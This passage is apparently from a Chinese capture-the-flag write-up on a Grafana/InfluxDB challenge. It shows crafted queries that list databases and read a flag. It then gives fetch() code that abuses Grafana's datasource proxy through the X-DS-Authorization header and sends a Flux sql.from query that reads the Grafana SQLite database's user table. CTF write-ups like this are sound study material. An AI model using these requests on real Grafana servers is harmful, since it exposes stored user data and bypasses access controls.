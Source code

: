这下好了。数据显示不到大屏上不重要，重要的是浏览器会发送格式正确的/api/ds/query请求。根据[InfluxQL文档](https://docs.influxdata.com/influxdb/v1/query_language/explore-schema/)手工编辑查询语句，执行`SHOW DATABASES`，得到桶名。

```json
{"results":{"A":{"status":200,"frames":[{"schema":{"name":"databases","refId":"A","meta":{"typeVersion":[0,0],"custom":null,"preferredVisualisationType":"logs","executedQueryString":"SHOW DATABASES"},"fields":[{"name":"Value","type":"string","typeInfo":{"frame":"string","nullable":true}}]},"data":{"values":[["_monitoring","_tasks","empty","secret_647707663"]]}}]}}}
```

再执行`SELECT * FROM secret_647707663..flag1`，得到flag。

```json
{"results":{"A":{"status":200,"frames":[{"schema":{"name":"flag1.value","refId":"A","meta":{"typeVersion":[0,0],"custom":null,"preferredVisualisationType":"logs","executedQueryString":"SELECT * FROM secret_647707663..flag1"},"fields":[{"name":"Time","type":"time","typeInfo":{"frame":"time.Time"}},{"name":"Value","type":"string","typeInfo":{"frame":"string","nullable":true},"config":{"displayNameFromDS":"flag1.value"}}]},"data":{"values":[[1760871143557],["flag{TOTAllY-NO-pErMISsIon-IN-gRAfaNA}"]]}}]}}}
```

### 数据飞轮！（解出于第二阶段）

要读取文件系统，就必须使用Flux查询语言。Grafana侧限定死了查询语言必须为InfluxQL，修改是不可能的了。翻Swagger，发现除了/ds/query，还有一个很劲爆的/datasources/proxy/uid/⟨uid⟩/⟨datasource_proxy_route⟩，这就是为什么flag 2提示指向的源码文件是ds_proxy.go。

Authorization头会被Grafana吃掉，根据[ds_proxy.go中的director函数](https://github.com/grafana/grafana/blob/v12.2.1/pkg/api/pluginproxy/ds_proxy.go#L228-L232)，转发接口会将X-DS-Authorization标头作为真正的Authorization标头发送。数据库用户名和密码写在了题目给出的Dockerfile里，但用不了，得用token才能通过验证。

Swagger用户本题一直在被坑啊，用Swagger发的请求有各种奇怪错误。datasource_proxy_route参数根本不需要URL编码，直接接上去就是了。

```js
fetch('https://prob04-xr3x8sgx.geekgame.pku.edu.cn/api/datasources/proxy/uid/bf04aru9rasxsb/health', {
	method: 'GET',
	headers: {
		// 'X-DS-Authorization': 'Basic ' + btoa('admin:password'), // NG
		'X-DS-Authorization': 'Token token',
	},
	credentials: 'include',
})
```

能调用InfluxDB API后，抄一下InfluxDB API文档[Query data](https://docs.influxdata.com/influxdb/v2/api/v2/#operation/PostQuery)，然后抄一下Flux文档[Query SQLite](https://docs.influxdata.com/flux/v0/query-data/sql/sqlite/)一节提供的示例。

```js
fetch('https://prob04-xr3x8sgx.geekgame.pku.edu.cn/api/datasources/proxy/uid/bf04aru9rasxsb/api/v2/query?org=org', {
	method: 'POST',
	headers: {
		'X-DS-Authorization': 'Token token',
		'Content-Type': 'application/vnd.flux',
		Accept: 'application/csv',
	},
	body: `
import "sql"

sql.from(
	driverName: "sqlite3",
	dataSourceName: "file:/var/lib/grafana/grafana.db?cache=shared&mode=ro",
	query: "select id, email from user",
)
`,
	credentials: 'include',
})
```